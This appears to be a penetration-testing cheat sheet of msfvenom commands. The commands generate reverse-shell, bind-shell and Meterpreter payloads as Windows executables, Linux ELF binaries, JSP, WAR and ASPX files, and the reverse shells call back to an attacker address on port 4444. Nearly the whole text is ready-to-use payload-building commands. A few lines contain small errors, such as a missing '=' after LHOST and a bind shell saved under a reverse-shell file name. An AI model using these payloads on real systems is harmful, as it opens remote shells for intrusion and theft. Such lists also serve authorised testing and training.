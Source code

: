 # MSFVENOM 32 Bit (x86) Reverse Shell: Windows Binary (.exe)
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.1 LPORT=4444 -f exe -o shell.exe
```

# MSFVENOM 32 Bit (x86) Bind Shell: Windows Binary (.exe)
```bash
msfvenom -p windows/shell_bind_tcp LPORT=4444 -f exe -o bind_shell.exe
```

# MSFVENOM 32 Bit (x86) Output in Hex, C Style, Exclude bad chars, Exitfunction thread:
```bash
msfvenom -p windows/shell_bind_tcp LHOST=192.168.0.1 LPORT=4444 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
```

# MSFVENOM 64 Bit (x64) Reverse Shell:
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.0.1 LPORT=4444 -f exe -o shell.exe
```

# MSFVENOM 64 Bit (x64) Bind Shell:
```bash
msfvenom -p windows/x64/shell_bind_tcp LPORT=4444 -f exe -o bind_shell.exe
```

# MSFVENOM 64 Bit (x64) Meterpreter:
```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.0.1 LPORT=4444 -f exe -o shell.exe
```


# MSFVENOM Linux Binary (.elf) 32 Bit (x86) Reverse Shell:
```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.0.1 LPORT=4444 -f elf > rev_shell.elf
```

# MSFVENOM Linux Binary (.elf) 32 Bit (x86) Bind Shell:
```bash
msfvenom -p linux/x86/shell/bind_tcp  LHOST=192.168.0.1 -f elf > bind_shell.elf
```

# MSFVENOM Linux Binary (.elf) 64 Bit (x64) Reverse Shell:
```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.0.1 LPORT=4444 -f elf > rev_shell.elf
```

# MSFVENOM Linux Binary (.elf) 64 Bit (x64) Bind Shell:
```bash
msfvenom -p linux/x64/shell/bind_tcp LHOST=192.168.0.1 -f elf > rev_shell.elf
```

# MSFVENOM Java Server Pages (.jsp)
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST192.168.0.1 LPORT=4444 -f raw > shell.jsp
```

# MSFVENOM As .war:
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.0.1 LPORT=4444 -f war -o shell.war
```

# MSFVENOM Active Sever Pages Extended (.aspx)
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.1 LPORT=4444 -f aspx -o rev_shell.aspx
```
